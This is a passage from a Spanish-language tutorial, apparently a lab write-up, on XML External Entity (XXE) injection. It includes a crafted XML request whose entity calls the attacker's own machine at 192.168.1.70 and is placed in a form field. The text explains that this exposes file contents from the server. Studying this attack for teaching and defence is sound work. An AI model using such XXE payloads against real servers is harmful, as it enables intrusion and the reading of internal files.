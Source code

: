 ![file](/assets/images/XXE/file.png)

Y podemos apreciar que ya nos muestra el archivo, ahora tendremos que modificar nuestra petición así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY test SYSTEM "http://192.168.1.70:80/test"> ]>
	<root>
		<name>Dansh</name>
		<tel>1254623</tel>
		<email>&test;</email>
		<password>Passw0rd123321</password>
	</root>
```

Lo que hicimos fue agregar la url de nuestra máquina atacante que levanto el servidor **directory listing** por el puerto 80, apuntando al archivo **test**, y al enviar la petición veremos lo siguiente:

![secret](/assets/images/XXE/secret.png)

Y como podemos ver en la respuesta de la petición vemos que nos interpreta el contenido del archivo **test**.

Y vemos el contenido que escribimos, en este punto el objetivo era demostrar que se puede acceder a archivos internos de un servidor por medio de este ataque.
